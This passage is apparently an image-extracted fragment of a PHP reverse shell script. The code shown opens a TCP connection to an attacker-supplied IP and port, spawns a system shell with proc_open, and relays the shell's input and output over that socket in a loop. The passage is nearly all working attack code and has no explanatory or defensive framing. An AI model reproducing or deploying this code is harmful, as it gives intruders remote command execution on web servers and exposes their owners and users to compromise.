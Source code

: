 ```php
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
```